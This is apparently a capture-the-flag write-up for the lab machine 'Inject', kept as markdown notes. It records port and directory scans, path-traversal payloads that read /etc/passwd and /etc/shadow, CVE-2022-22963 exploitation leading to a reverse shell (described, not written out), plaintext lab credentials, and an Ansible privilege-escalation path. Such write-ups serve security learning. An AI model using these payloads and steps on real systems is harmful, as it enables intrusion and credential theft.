




# Inject
## Enumeration
- `nmap`
```
┌──(kali㉿kali)-[~/Documents/tasks]
└─$ nmap -Pn -p- -T4 10.10.11.204                                     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 14:17 EDT
Nmap scan report for 10.10.11.204 (10.10.11.204)
Host is up (0.16s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
5427/tcp  filtered sco-peer-tta
8080/tcp  open     http-proxy
62318/tcp filtered unknown

```
```
┌──(kali㉿kali)-[~/Documents/tasks]
└─$ nmap -sC -sV -p22,5427,8080,62318 10.10.11.204 -Pn -T4            
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 14:27 EDT
Nmap scan report for 10.10.11.204 (10.10.11.204)
Host is up (0.12s latency).

PORT      STATE  SERVICE      VERSION
22/tcp    open   ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
5427/tcp  closed sco-peer-tta
8080/tcp  open   nagios-nsca  Nagios NSCA
|_http-title: Home
62318/tcp closed unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.26 seconds

```
- Web Server


- `gobuster`
```
┌──(kali㉿kali)-[~/Documents/tasks]
└─$ gobuster dir -u http://10.10.11.204:8080/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt    
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.204:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/18 13:19:48 Starting gobuster in directory enumeration mode
===============================================================
/register             (Status: 200) [Size: 5654]
/upload               (Status: 200) [Size: 1857]
/error                (Status: 500) [Size: 106]
/blogs                (Status: 200) [Size: 5371]
/environment          (Status: 500) [Size: 712]
/[                    (Status: 400) [Size: 435]
/plain]               (Status: 400) [Size: 435]
/]                    (Status: 400) [Size: 435]
/quote]               (Status: 400) [Size: 435]
Progress: 20730 / 26585 (77.98%)[ERROR] 2023/05/18 13:24:19 [!] parse "http://10.10.11.204:8080/error\x1f_log": net/url: invalid control character in URL
/extension]           (Status: 400) [Size: 435]
/[0-9]                (Status: 400) [Size: 435]
Progress: 26584 / 26585 (100.00%)
===============================================================
2023/05/18 13:25:50 Finished
```

## Foothold
- We have an `upload` and `register` pages




- I started playing around with `upload` page
  - Uploaded media file with web shell in it, didn't work


- But luckily we have `lfi`
  - I used `ffuf` for fuzzing

```
└─$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u 'http://10.10.11.204:8080/show_image?img=FUZZ' -fc 500 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.204:8080/show_image?img=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 500
________________________________________________

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 131ms]
    * FUZZ: /%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 292ms]
    * FUZZ: ..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

[Status: 200, Size: 228, Words: 23, Lines: 10, Duration: 227ms]
    * FUZZ: ../../../../../../../../../../../../etc/hosts

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 111ms]
    * FUZZ: /../../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 135ms]
    * FUZZ: ../../../../../../../../../../../../../../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 135ms]
    * FUZZ: ../../../../../../../../../../../../../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 113ms]
    * FUZZ: ../../../../../../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 150ms]
    * FUZZ: ../../../../../../../../../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 162ms]
    * FUZZ: ../../../../../../../../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 193ms]
    * FUZZ: ../../../../../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 344ms]
    * FUZZ: ../../../../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 352ms]
    * FUZZ: ../../../../../../../../../../../../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 415ms]
    * FUZZ: ../../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 416ms]
    * FUZZ: ../../../../../../../../../../../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 416ms]
    * FUZZ: ../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 416ms]
    * FUZZ: ../../../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 415ms]
    * FUZZ: ../../../../../../../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 440ms]
    * FUZZ: ../../../../../../../../../../../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 435ms]
    * FUZZ: ../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 474ms]
    * FUZZ: ../../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 512ms]
    * FUZZ: ../../../../../../../etc/passwd

[Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 283ms]
    * FUZZ: ../../../../../../etc/passwd&=%3C%3C%3C%3C

[Status: 200, Size: 1345, Words: 1, Lines: 1, Duration: 202ms]
    * FUZZ: ../../../../../../../../../../../../etc/shadow

[Status: 200, Size: 1345, Words: 1, Lines: 1, Duration: 292ms]
    * FUZZ: /%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/shadow

[Status: 200, Size: 1345, Words: 1, Lines: 1, Duration: 221ms]
    * FUZZ: /../../../../../../../../../../etc/shadow

[Status: 200, Size: 4020, Words: 1, Lines: 1, Duration: 301ms]
    * FUZZ: ../../../../../../../dev

[Status: 200, Size: 1345, Words: 1, Lines: 1, Duration: 294ms]
    * FUZZ: ..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fshadow


```

- Let's check


- If we check the `/var/www/WebApp`, we see that it's a `Java` project
  - We can download `pom.xml`
  - It's a configuration file that manages dependencies
```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>

```

- Now we have `pom.xml` we can start googling the possible vulnerabilities 
  - https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/
  - From `pom.xml` we see that `spring-cloud-function-web`'s version is `3.2.2`
  - Potential `cve-2022-22963`
    - It looks like we need to add header `spring.cloud.function.routing-expression`
    - https://www.fastly.com/blog/spring-has-sprung-breaking-down-cve-2022-22963-and-spring4shell-cve-2022
    - [PoC](https://github.com/lemmyz4n3771/CVE-2022-22963-PoC/blob/main/exploit.py)


- Let's test it
  - I'll create a file using `cve-2022-22963` and then check it with `lfi`
  - And it works




- Let's get reverse shell
  - I'll download reverse shell script and execute it
  - Now we have our foothold




## User
- There is a `settings.xml` file with creds, we can basically `su` as `phil` 
  - It's located in `/home/frank/.m2`
  - `phil:DocPhillovestoInject123`


## Root
- `pspy` shows automated tasks running in the background
  - To be specific it's `ansible` 


- We have a potential [privesc path](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)
  - All we need to do is to create a malicious `yml` in the `/opt/automation/tasks` and for the job to complete 
  - We can write to the `/opt/automation/tasks` because `phil` is in `staff` group and directory belongs to `staff` group




